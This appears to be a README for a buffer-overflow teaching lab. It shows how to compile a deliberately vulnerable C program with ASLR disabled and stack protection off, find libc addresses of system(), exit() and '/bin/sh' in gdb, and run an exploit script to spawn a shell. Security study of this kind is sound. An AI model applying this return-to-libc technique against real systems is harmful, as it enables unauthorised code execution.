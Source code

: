 ## To compile the overflow.c: ##
	$ su root
	$ sysctl -w kernel.randomize_va_space=0
	$ gcc -g -fno-stack-protector overflow.c -o overflow

---
## To find the address of system() && exit() && "/bin/sh" in exploit.py: ##
	$ gdb ./overflow
	$ b main 
	$ run 
	$ p system
	$ p exit
	$ info proc map
	$ find libc_start_address,libc_end_address,"/bin/sh"

---
## To get the shell: ##
	./overflow $(python exploit.py)
